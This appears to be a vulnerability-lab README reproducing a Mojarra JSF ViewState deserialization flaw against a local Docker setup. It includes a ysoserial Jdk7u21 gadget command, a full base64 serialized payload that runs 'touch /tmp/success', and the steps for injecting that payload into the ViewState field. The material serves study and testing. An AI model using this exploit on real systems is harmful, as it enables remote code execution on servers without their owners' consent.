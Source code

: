 # Mojarra JSF ViewState Deserialization Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

JavaServer Faces (JSF) is a new standard for building Web applications, and Mojarra is a framework that implements JSF. The Mojarra that before 2.1.29-08 and 2.0.11-04, is not configured to encrypt the ViewState, so the web application may have a serious remote code execution (RCE) vulnerability.

Reference links:

- https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html
- https://www.exploit-db.com/docs/48126
- https://www.synacktiv.com/ressources/JSF_ViewState_InYourFace.pdf

## setup

Execute the following command to start a JSF application which using JDK7u21 and Mojarra 2.1.28:

```
docker-compose up -d
```

After the application is started, visit `http://your-ip:8080` to see the demo page.

## Exploit

Here is the structure of ViewState that encoding without a security layer:

![](1.png)

According to this structure, we can use Ysoserial's Jdk7u21 Gadget to generate a payload:

```
$ java -jar ysoserial-master-SNAPSHOT.jar Jdk7u21 "touch /tmp/success" | gzip | base64 -w 0
H4sIAAVGF18AA61WzW8bRRR / Yye2Y9zmo / lsaZvQlnxAd / PlJsURbT5Ia3BIhNNUwocwXk / sbde7293ZZINEb / wBCJX / AJBoOPRCqx6QKm4tFyQkUFEluHADDhUSFz7e7G5iKwnYLV1pd2bf17z35jdv3tYv0Ghb0HWFrlPJ4aomZVT9KitcpHYpy / j32ndv33g0dCwE4FrQWpEK + Hfn3r / x0Z3b42HkmxsJAGg5dx7EE0KrryhGWbIdXTKsokRNqpSY5FKN6pKqc2bpVJNcW + OKxC3qSsusbGqUMzuNY9PlxXv61s2xMETScGBV1QtM52865Tyz0nBwFRV0W2M8jXQ3B / HV / CZnilFgNodwLjeTg8iqolEbf9tyGeG2jMsW5VlBS2WgcVWnZYbMKl6WW6peRGbrquFw0 + FLlmEyi6vCaKcvKGKXK / SUa4pY / 8bHsbyF3 / izp6NY / GFCJEzwQkgP5Wa2Hnf9EYkt / xiQI5 / d / + vul8gehbNxCMMLUZiIwqkovEigxWaWSrUVZtmqoV9KzxEgrxM4MGvoNqc6X6Gawxo / 7 / 3w8QePfnuVQGRK1VWOk / DA4AqBhlnMAoFm3Ebm52uZ5jWktGUMBc1SNI7 / AbGBl1SbwKEsd / LLQU6X6KZm0AKBRFrXmeWljKFQMrNpG75zsunL2H5CLtBCkXH75D5WUgSavM1aM6wyAWsgg5iQERMyYkL2MSF7mJC3MSF7mJDnFhdSuX2ly1pF1vdHfZdZcjaYUo55u0j1gsaslEhJrGAoThnxQ + D0Ey2PqiXfDoY / 8 / + dIRB / zVWYKWh2FPoJfPJk + ajpQYGX5bnlhWlXtdNIotywaivVlUM1MCdw8DReEIgGuSQw / SwymTUcS2HzqoBxIkCgJA5pAuLwXBQGCIw9BWAJnK93RyxH52qZydN5GyGu8G1LBNq9YqEaFee903a2XsvblnbQQuB4jVhwi6YULSgFrZWq9pbvZBSGMGcoGPwT6BgYzOwR SyXgZTgdh5dAworBDUcp9cq8bKLXisJsOwbDWDSYyxQC / QN7i2e1SSyTQgVNjsKYMDmOVSzLqXJ1gZpB / amKamkDi83oxPBIMpmcnBgZGR8Zm0CNvkwNkRT0QQhrKPqF72FohAiOUVF7IebREA74FZeTjCPBsXHoNpBbnsgB / EY8ogwH8ZvwBaAZJnHE0gjtKCWUz + EbFrTdiuOeYq / PDBTFrAM6PT6BLuhGjR6c + z4Ks0cCs2mPuo / ZSc / skM / c1 + zzcBQ1xOwYHMflKwvEYHAn6JPIEVLNn0KYZO6A3DbyBSQv3 / IUz3hBESHR663fB604xpEVghPQAk3ONbiOtoB8u3NnHRF3VkcUuqLQHYWeeu + saz + rv06VL3Q / mzsrPG8Ye + 6oUzXvKNSqp3ocJnCiDlMYegXwi / krTPn301 / rBP8njkn9OJ7aheM2j3 / I + 7ZX7W6n2F2TQwMeK8vcIODa73mYOCr8dyUsyNLO1V3pztztblHELFlsTcOgJTzs7uZP / Q97v26ZfRACkgFS4rgdlewEknJaX8dNrS7mrom94qjoE7etUV03uCcjTe9M9yheuv97c8eD6x + HIJSBRJkJ4HhIw36tuapfw3KDXV0D3zSx42vd0w16y + 9qbVGlMfrw3led73yDR2Me4mK75rHGG9h + NvGSxeySoRVcM + h2Exsx0fuK9HGIrSVpkp4ZnhQnJ ​​+ auWzUyCpXHNd1/AEKwhdeSCwAA
```

Then, intercept and modify the http request from demo page, put the url-encoded payload into value of `javax.faces.ViewState` field.

![](2.png)

`touch /tmp/success` has been successfully executed:

![](3.png)